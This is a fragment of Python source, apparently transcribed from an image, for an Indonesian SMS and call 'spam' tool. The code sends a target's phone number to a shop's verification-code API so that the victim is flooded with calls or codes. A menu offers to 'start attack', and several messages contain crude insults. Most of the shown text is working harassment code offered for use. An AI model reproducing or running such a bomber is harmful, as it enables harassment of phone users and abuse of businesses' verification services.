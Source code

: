      dat = json.dumps(['62'+nom,'Vader Shop'])
     y = r.post("https://api.vader-api.com/account/sendmobilecodeasync.json",headers=hd,data=dat).text
     if ('Gagal' in y) or ('hari' in y):
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CALL{kan}) {ken}VaderShop{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CALL{kan}) {ken}VaderShop{kan} OK")
try:
 os.system("clear")
 bnr()
 menu=["Mulai attack","Grup WhatsApp","Follow my tiktok","update script"]
 print (f"         {tot}MENU{sop}        ")
 for i in range(len(menu)):
   print (f"{ken} [0"+str(i+1).ljust(1)+"] \033[31m"+menu[i])
 main.main()
except ru.ConnectionError:print (f"{ken}[{kun}•{ken}] {kun}Koneksi Error makanya pakai telkomsel anjing")
except KeyboardInterrupt:print (f"{ken}[{kun}•{ken}] {kun}Program dihentikkan oleh abang jago")
